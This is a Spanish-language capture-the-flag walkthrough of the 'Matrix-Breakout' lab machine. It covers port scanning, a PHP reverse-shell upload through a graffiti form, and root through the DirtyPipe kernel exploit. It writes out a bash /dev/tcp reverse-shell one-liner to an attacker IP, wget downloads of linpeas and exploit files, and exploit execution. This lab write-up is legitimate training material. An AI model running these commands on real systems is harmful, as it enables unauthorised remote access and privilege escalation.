# Matrix-Breakout

## Información General

<h3>Dificultad:  </h3>

<h3>Sistema operativo:Linux </h3>

<h3>Vulnerabilidad explotada. File upload y escalada de privilegio</h3>

<h3>Fecha de resolución: 23/06/2025</h3>

<h3>Enlace: <a href="https://thepwnlab.es/maquinas/Matrix-Breakout" target="_blank">Matrix-Breakout</a></h3>

### *Leer el documentro en Ingles* <a href="matrix-breakout-english.md">Matrix-Breakout</a>

## Reconocimiento

ThePwnLab nos proporciona la ip de la máquina objetivo **ip_objetivo**

## Escaneo de puertos abiertos

### Escaneo de puerto TCP

El comando que usaremos siempre con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn <ip de la máquina objetivo>
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service | Version                |
| --------- | ------- | ---------------------- |
| 22        | ssh     | OpenSSH 8.4p1 Debian 5 |
| 80        | http    | Apache httpd 2.4.51    |
| 81        | http    | nginx 1.18.0           |

</div>

## Exploración

Accediendo a la url me encuentro con lo siguiente:

```
http://<ipMaquinaObjetivo>/
```

<p align="center"> 

</p>

Accedo al puerto 81, me pide credenciales

```
http://<ipMaquinaObjetivo>:81/
```

<p align="center"> 

</p>

### Fuzzing web

```
dirsearch -u http://<ipObjetivo>  
```

<p align="center"> 

</p>

visito el path **/robots.txt**

<p align="center"> 

</p>

Dice que nada, que siga buscando, pruebo con otro comando.

```
gobuster dir -u http://10.0.0.71/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

Hemos encontrado dos nuevas nuevas path

```
http://<ip_objetivo>/graffiti.txt
```

<p align="center"> 

</p>

```
http://<ip_objetivo>/graffiti.php
```

<p align="center"> 

</p>

## Explotación

En burp suite nos vamos a **Proxy** - **Intercept** - **Intercept on** 

<p align="center"> 

</p>

En la página nos vamos a **settings** - **buscador (proxy)** - **Manual proxy configuration**

Enviamos ahora algun mensaje en la **http://<ipObjetivo>/graffiti.php**

<p align="center"> 

</p>

Burp suite ha interceptado la información y lo enviamos to Repeater

<p align="center"> 

</p>

Podemos intentar subir algún archivo malicioso, usamos una plantilla que ya tiene kali, la localizamos usando este comando:

```
locate reverse_shell
```

<p align="center"> 

</p>

Luego, copiamos este archivo a nuestra raiz con el siguiente comando:

```
cp /usr/share/webshells/php/php-reverse-shell.php reverse.php
```
Luego, del archivo que tiene, solo nos centraremos en cambiar solamente esto:

```
$ip = '10.10.0.92';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
```

<p align="center"> 

</p>

Volviendo a burp suite, en **message** copiamos todo el contenido de reverse.php con el **ip** y **port** que vamos a usar y en **file** añadimos el nombre con la extensión .php por ejemplo **archivo1.php**

Para consultar la ip hay dos formas

**1º forma:**

```
ip a
```

<p align="center"> 

</p>

**2º forma:**

```
https://thepwnlab.es/settings/vpn
```

<p align="center"> 

</p>

En burp suite, le damos a **send** y nos trendía que dar el **HTPP 200 OK**

<p align="center"> 

</p>

Desactivamos **proxy** - **Intercept** - **Intercept off**

<p align="center"> 

</p>

Primero, activamos el puerto de escucha con este comando:

```
nc -lvnp 4444
```

Luego, activamos el archivo recien subido:

```
10.0.0.76/archivo1.php
```

<p align="center"> 

</p>

Recuerda en el navegador en **settings** - **proxy** - **no proxy** (Desactivar el proxy)

<p align="center"> 

</p>

### Tenemos que conseguir una conexión más estable

Por tanto, en otra terminal, activamos el puerto de escucha:

```
sudo nc -lvnp 4445
```
Luego, en las sesión reciente abierta, metemos este comando:

```
bash -c "sh -i >& /dev/tcp/10.10.0.92/4445 0>&1"
```
#### TTY

```
script /dev/null -c bash
```
**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

<p align="center"> 

</p>

Para conseguir la **primera bandera** tendriamos que estar en la raiz, haríamos el siguiente comando:

```
ls
```

<p align="center"> 

</p>

En mi caso, la **Flag.txt** se bugueo y no aparecía, tuve que preguntarle al dueño del laboratorio y ya la conseguí. Tal vez, cuando te toque encontrar esta la Flag este en otro lado o sigue en el mismo sitio.

Para conseguir **la segunda bandera** tendríamos que llevar a cabo la escalada de privilegio

## Explotación Posterior
### Escalada de Privilegios

#### Primer Forma:

```
sudo -l
```

<p align="center"> 

</p>

No sirvió.

#### Segundo Forma:

```
find / -perm -4000 2>/dev/null
```

La pagina que visitamos para ver las vulnerabilidades es https://gtfobins.github.io

**No nos funciono nada**

#### Tercer forma

```
uname -r
```

<p align="center"> 

</p>

Buscamos información en internet, nos encontramos lo siguiente:

<p align="center"> 

</p>

Encontramos información de escalada de privilegio (DirtyPipe) El CVE-2022-0847 explica en detalle la vulnerabilidad.

-------------

#### Cuarto Forma

Otra forma es usando **linpeas.sh**, si no sabes lo que es, en esta pagina  te lo explica y te ayuda a instalarlo <a href="https://keepcoding.io/blog/que-es-linpeas-y-como-funciona/" target="_blank">Que es linpeas y como funciona</a>

De todos modos te pongo los comandos para su instalación y ejecución

Descargamos el script en nuestra kali:

```
sudo curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
```

Luego compartimos nuestro archivo con este comando:

```
python -m http.server 80
```

<p align="center"> 

</p>

Después nos situamos en **la máquina objetivo** en la siguiente ruta, con el objetivo que nos permita descarga archivos: 

```
cd tmp/
```

Ejecuto los siguientes comandos:

```
wget http://10.10.0.92/linpeas.sh
```

<p align="center"> 

</p>

Asigna los permisos de ejecución:

```
chmod +x linpeas.sh
```

Ejecuta el script:

```
./linpeas.sh >> infome.txt
```

Nos saldrá un informe bastante extenso, pero solo nos centraremos en esto:

<p align="center"> 

</p>

Luego en mi maquina atacante descargo dirtypipez.c pero **no me funciono el script.**

Sigo investigando por internet, y me encuentro la siguiente pagina: <a href="https://hackers-arise.com/privilege-escalation-the-dirty-pipe-exploit-to-escalate-privileges-on-linux-systems/" target="_blank">Escalacion de privilegio con Dirty Pipe</a>

<p align="center"> 

</p>

Lo descargo en mi máquina atacante kali.

```
sudo git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
```

<p align="center"> 

</p>

Me centraría en estos dos archivos:

<p align="center"> 

</p>

Comparto esta carpeta con este comando:

```
python -m http.server 80
```

Luego en mi maquina objetivo situado en carpeta **/tmp** con el comando **wget** me traigo los archivos.

<p align="center"> 

</p>

Le damos permiso de ejecución a ambos archivos:

```
chmod +x compile.sh 
chmod +x exploit-1.c
```

Ejecutamos los archivos:

```
./compile.sh
```

<p align="center"> 

</p>

```
./exploit-1 
```

<p align="center"> 

</p>

Aqui nos confirma que root ha pasado la contraseña a **piped**.

```
su root
whoami
```

<p align="center"> 

</p>

```
cd /root
cat FLAG.txt
```

<p align="center"> 

</p>

**Máquina Terminada!!**

## Conclusión

En mi humilde opinión, esta máquina me ha resultado bastante compleja. En primer lugar, el hecho de usar **burp suite** y subir un archivo con la extensión .php para conseguir la **reverse shell** me vino muy bien para repasar. Luego, en el punto de **escalada de privilegio** me toco investigar bastante, y descubrí una herramienta llamada **linpeas** que realiza un reporte completo del sistema operativo que estás usando, resulta que esta herramienta es usada en los retos CTF, definitivamente apartir de esta máquina la empezaré usar. Por último, con esta máquina descubrí una nueva vulnerabilidad de escalada de privilegio llamada **DirtyPipe**, que en mi caso se uso un  para editar el fichero **/etc/passwd** cambiando la contraseña del usuario **root** por **piper**.
Solo se ve afectado en versiones de **linux en versión 5.8 y posteriores**. 

**Chat GPT me comenta que está máquina esta por encima de lo que piden para el certificado ejptv2**